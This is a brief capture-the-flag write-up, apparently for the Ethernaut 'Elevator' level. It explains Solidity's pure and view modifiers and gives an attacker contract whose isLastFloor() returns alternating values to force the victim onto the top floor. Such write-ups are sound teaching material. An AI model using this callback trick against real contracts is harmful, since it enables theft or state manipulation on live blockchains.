

# Day 11 - Elevator

## Pure & View functions

- **pure:** promises functions that will neither read from nor modify the state. Note: Pure replaces constant in more recent compilers

- **view:** promises functions that will only read, but not modify the state



## Solution

Since `building.isLastFloor()` is not a view function, you could implement it in such a way where it returns a different value everytime it is called, even if it is called in the same function. Moreover, even if it were to be changed to a view function, you could also still attack it.

```js
pragma solidity ^0.6.0;

contract AttackElevator  {
    bool public flag;

    // implement building.isLastFloor
    function isLastFloor(uint) public returns(bool) {
        flag = !flag;
        return !flag;
    }

    function forceTopFloor(address _victim) public {
        bytes memory payload = abi.encodeWithSignature("goTo(uint256)", 1);
        _victim.call(payload);
    }

}
```
